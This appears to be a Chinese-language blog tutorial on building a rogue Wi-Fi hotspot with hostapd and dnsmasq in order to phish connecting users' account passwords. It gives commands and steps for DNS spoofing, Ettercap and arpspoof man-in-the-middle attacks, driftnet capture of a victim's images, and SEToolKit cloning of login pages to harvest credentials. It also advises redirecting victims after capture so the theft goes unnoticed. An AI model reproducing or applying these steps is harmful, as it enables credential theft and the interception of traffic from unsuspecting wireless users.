

场景
建立钓鱼AP，诱导链接wifi的用户在钓鱼页面上输入账号密码
环境说明
系统：笔记本电脑用VMWare起Kali 2020
网卡：本来是淘宝买的免驱动的RT3070L网卡，后来还是换成了TPLink的WN722，也可以买其他的，需要支持AP模式
配置WIFI热点
1、无线网卡的配置
连接虚拟机
直接插在笔记本上之后选择虚拟机-->可移动设备-->Ralink网卡-->连接主机会将无线网卡直接连接到虚拟机上

查看是否支持AP模式
1 | iw list | grep 'Supported interface modes' -A 10 |

2、配置HOSTAPD服务（起WIFI热点）
WIFI是数据链路层的协议，在创建无线热点后，客户端就可以通过无线名及密码连接到该热点并发送数据包。
首先安装hostapd：
1 | proxychains apt install hostapd |
修改hostpad.conf配置文件，如果文件不存在就直接创建一个
1 | # 指定无线网卡 |
启动hostapd服务
1 | 注意：启动hostapd之前，确保网卡已经启动，否则可能报错 |
此时会启动一个无法联网的WIFI
3、网络配置
网络配置有两种方式：一种是桥接模式（通过桥接上网）；一种使NAT模式（通过NAT上网）。二选一即可。
配置「桥接」模式
1 | brctl addbr br0 # 创建网桥 |
至此，通过桥接模式，无线就可以访问网络了。
配置NAT模式
使用NAT模式可以构建自己的小型局域网。
配置作为AP的无线网卡
1 | 这里我们使用172.16.0.0/8网段 |
配置dnsmasq服务
在这里使用Dnsmasq，主要提供DHCP服务的。所以如果没有Dnsmasq也是可以的，但连接到无线之后就要手动配置设备的网络。
关于Dnsmasq的安装参考另外一篇文章: 在Linux下，Dnsmasq的安装
1 | # 创建/etc/dnsmasq.conf配置文件，写入如下内容 |
运行dnsmasq服务
1 | systemctl start dnsmasq |
开启内核「ip_forward」功能
1 | echo 1 > /proc/sys/net/ipv4/ip_forward |
配置「NAT」功能
1 | 172.16.0.0/8：DHCP所使用的网段 |
至此，NAT模式下，就可以使用CORPTTT这个无线网访问网络了
可以看到，这里已经获取到了IP地址，如果不设置dnsmasq则无法获取IP地址正常上网。
命令汇总：
1 | hostapd /opt/wifi/hostapd.conf |
问题汇总
这里在安装的时候是遇到了一些报错：
hostapd_free_hapd_data: Interface wlan0 wasn’t started

我这边是直接重启Kali就解决的问题，网上还有一些其他的解决方法：
https://k4nz.com/05.Computer_Networks/1.Computer_networking/WLAN_and_Wi-Fi/2.Create_Wi-Fi_Access_Point.html
https://zhuanlan.zhihu.com/p/25875346
1 | systemctl stop network-manager.service |
还有一种情况是插在转接口上，能读出来网卡，但是会启动不了AP，需要直接插在电脑的USB口上才行
Operation not possible due to RF-kill

https://bbs.archlinux.org/viewtopic.php?id=173808
执行：
1 | ip link set wlan0 up |
dnsmasq: failed to bind DHCP server socket: Address already in use

1 | netstat -nlp | grep 53 |
使用命令查看53端口占用即可，我这里已经启动了，所以会被占用，如果是其他DNS服务占用了可以先暂时关闭：

直接Kill掉985进程即可使用dnsmasq命令
攻击方式
配置DNSMASQ的DNS
在dnsmasq.conf中可以修改DNS：
1 | address=/www.baidu.com/127.0.0.1 |

然后手机连接热点之后再访问百度就可以看到页面是172.16.0.1地址的apache的页面：

可以参考：
https://blog.51cto.com/longlei/2065967
修改之后可以做DNS欺骗，伪造钓鱼页面等等
Ettercap DNS欺骗
首先在/etc/ettercap/etter.dns文件中配置dns解析地址

执行ettercap -G打开图形界面扫描局域网内主机

这里扫描完了点击Hosts -> HostList查看扫描结果，但是我这里扫描了很多次都没有办法获取结果

可以改成View -> Resolve IP addresses查看

也可以通过nmap扫描之后手动添加，然后选择选择网关添加到target1，选择目标IP添加到target2(网络上的图)

然后Mitm->ARP posioning->勾选Sniff remote connections

然后点击Plugins --> dns_spoof双击选中

此时在被欺骗的主机上打开www.baidu.com可以发现域名已经被劫持

参考链接：https://my.oschina.net/u/4302374/blog/3383337
Driftnet捕获局域网图像
环境
在同一个局域网内，使用的是Kali 2020 (默认没有安装arpspoof和Driftnet)
1 | apt-get install dsniff ssldump |
攻击方式
使用ARP欺骗，172.20.10.11是要攻击的地址
1 | arpspoof -i eth0 -t 172.20.10.1 172.20.10.11 |

1 | driftnet -i eth0 |
在172.20.10.11中浏览图片时即可看到driftnet记录下了图片

如果kali没有进行IP转发 那么目标就会因为配置错网而导致断网
1 | 开启IP转发: |
SEToolKit伪造页面
上面说到的两种DNS欺骗的方法实际上需要配合一个比较贴近真实的页面才能达到效果，否则一般情况下不会中招，所以可以使用SEToolKit进行页面复制：
1 | setoolkit |

然后选择 1-->2-->3-->2

这里直接Enter下一步

这里会提示输入要clone的url，输入地址然后接连ENTER，会在本地起一个80端口，打开就会发现页面和前面的一样

可以构造一些登录页面，诱导用户输入账号密码，SEToolKit会自动抓取请求：

另外静态文件存储在执行命令时的目录中(.set目录)，是隐藏文件夹，同样可以拿出来用在邮件钓鱼等场景中。

实际使用中可以修改一下静态页面，在用户输入账号密码之后将内容重定向到正常页面，这样真实性更高，不容易被发现。